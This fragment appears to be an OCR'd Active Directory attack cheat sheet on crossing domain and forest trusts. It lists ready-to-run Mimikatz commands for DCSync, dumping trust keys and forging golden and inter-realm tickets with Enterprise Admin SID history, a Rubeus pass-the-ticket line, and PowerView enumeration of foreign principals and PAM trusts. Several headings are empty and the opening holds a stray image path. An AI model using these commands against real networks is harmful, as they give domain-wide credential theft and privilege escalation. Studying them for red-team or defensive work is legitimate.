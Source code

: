 + works across domain!

### AzureAD

### Trust Key (SID history)
```

lsadump::dcsync /user:LEAF\ROOT$
lsadump::trust /patch
// inter-realm TGT
kerberos::golden /domain:DOMAIN /sid:DOMAIN-SID /sids:ROOT-SID-519 /aes256:TRUST-KEY /user:Administrator /service:krbtgt /target:ROOT-DOMAIN /ticket:trust.kirbi
Rubeus.exe asktgs /ticket:trust.kirbi /service:SERVICE/ROOT-DC /dc:ROOT-DC /ptt
```

### krbtgt (SID history)

```
kerberos::golden /user:Administrator /domain:DOMAIN /sid:DOMAIN-SID /aes256:AESKEY-KRBTGT /sids:ROOT-SID-519 /ptt
```

## Cross-forest
### Kerberoast

### Unconstrained Delegation

+ only if TGT Delegation enabled on the trust!

### Trust Key

+ can only access resources explicitly shared!
+ SID filtering -> but SID >= 1000 OK for SID history!

### MSSQL

### FSPs/ACLs

```
Find-ForeignUser -Verbose
Find-ForeignGroup -Verbose
Get-DomainUser/Group -Domain TRUSTING-FOREST | ?{$_.ObjectSid -eq 'FOREIGN-SID'}
Find-InterestingDomainAcl -Domain TRUSTING-FOREST
```

### PAM Trust

+ usually between bastion/red forest and production forest
+ AD Module:
```
Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}
Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl
```
